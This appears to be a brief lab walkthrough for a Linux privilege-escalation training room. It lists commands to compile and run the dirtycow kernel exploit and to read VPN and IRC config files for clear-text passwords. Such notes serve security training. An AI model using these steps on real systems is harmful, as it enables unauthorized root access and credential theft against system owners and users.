 Linux ProvEcs Arena
===================


## Kernel Exploits

Suggested tool `dirtycow`

1. gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w
2. In command prompt type: `./c0w`

![dirtycow](/Images/linux_privesc_arena/dirtycow.png)


## Stored Passwords (Config File)

1. In command prompt type: `cat /home/user/myvpn.ovpn`
2. From the output, make note of the value of the “auth-user-pass” directive.
3. In command prompt type: `cat /etc/openvpn/auth.txt`
4. From the output, make note of the clear-text credentials.
5. In command prompt type: `cat /home/user/.irssi/config | grep -i passw`
6. From the output, make note of the clear-text credentials.
